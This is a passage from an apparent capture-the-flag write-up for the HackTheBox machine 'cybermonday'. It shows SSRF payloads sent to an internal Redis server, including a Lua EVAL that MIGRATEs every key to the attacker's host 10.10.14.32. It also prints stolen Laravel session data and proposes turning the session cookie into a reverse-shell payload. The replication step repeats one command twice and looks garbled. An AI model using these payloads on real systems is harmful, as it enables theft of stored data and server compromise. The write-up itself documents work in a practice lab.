 
With this, we now need a way to export all the keys from the remote Redis server to our local machine. We can do so with this command I found here:

{% embed url="https://github.com/dxa4481/whatsinmyredis" %}

This was the payload I used:

{% code overflow="wrap" %}
```json
{"url":"http://redis:6379/","method":"EVAL 'for k,v in pairs(redis.call(\"KEYS\", \"*\")) do redis.pcall(\"MIGRATE\",\"10.10.14.32\",\"6379\",v,0,200) end' 0\r\n*1\r\n$20\r\n"}
```
{% endcode %}

The last parts are for handling the arguments passed to Redis:

<figure><img src="../../.gitbook/assets/image (4204).png" alt=""><figcaption></figcaption></figure>

Afterwards, we need to replicate the remote Redis database to our own. This would allow us to write to the remote Redis database if we need to:

```json
{"url":"http://redis:6379/","method":"CONFIG SET replica-read-only no\r\n\r\n"}
```

We might obtain a read only replica error, which can be fixed with this:

```json
{"url":"http://redis:6379/","method":"CONFIG SET replica-read-only no\r\n\r\n"}
```

After all of this, we can use `redis-cli` to view the keys present:

{% code overflow="wrap" %}
```
$ redis-cli -h 127.0.0.1 -p 6379
127.0.0.1:6379> keys *
1) "laravel_session:uVlrclU6uti6bHeLM5qBhACuOsqEL0f1GASURNgH"
127.0.0.1:6379> get laravel_session:uVlrclU6uti6bHeLM5qBhACuOsqEL0f1GASURNgH
"s:247:\"a:4:{s:6:\"_token\";s:40:\"oAXl7Y1nw3REQ4KyL8GypmaxAUjJP5tkfA3N4n73\";s:9:\"_previous\";a:1:{s:3:\"url\";s:27:\"http://cybermonday.htb/home\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}s:50:\"login_web_59ba36addc2b2f9401580f014c7f58ea4e30989d\";i:2;}\";"
```
{% endcode %}

Since we have the `APP_KEY` variable retrieved earlier from the `.env` file, we can decode this cookie and potentially change it to have a reverse shell payload (if its being deserialised).&#x20;
